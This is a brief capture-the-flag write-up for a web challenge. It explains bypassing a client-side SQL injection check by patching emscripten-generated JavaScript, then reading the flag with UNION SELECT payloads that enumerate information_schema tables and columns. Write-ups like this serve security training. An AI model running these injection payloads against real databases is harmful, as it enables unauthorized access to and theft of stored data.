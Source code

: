 King of Glory is a funny game. Our website has a list of players.
http://202.120.7.213:11181

Solve:
The goal here is to bypass client side sqli check, we need to patch the functionn.js to make it work for us to generate valid hash for our id.
In order to patch this, I opened 2 chrome tab, and debug the js being executed for:
Module.main(1);
and Module.main('q');

It turns out that the second query failed to pass the check in #7633 and #7659
after patch them with adding:
$13 = true;
$25 = true;

Module.main('q') will generate valid hash for us.
After that it is just simple sql injection.

I also created a nodejs file to make it easier.

<pre>
<code>
node test.js "100 union select 1,CONCAT(table_name,0x20) FROM information_schema.tables -- "
gave us table name: fl4g
</code>
</pre>

<pre><code>
node test.js "100 union select 1,CONCAT(column_name,0x20) FROM information_schema.columns WHERE table_name = 'fl4g' -- "
gave us column name: hey
<code></pre>

<pre><code>
node test.js "100 union select 1,hey from fl4g -- "
gave us flag: flag{emScripten_is_Cut3_right?}
<code></pre>
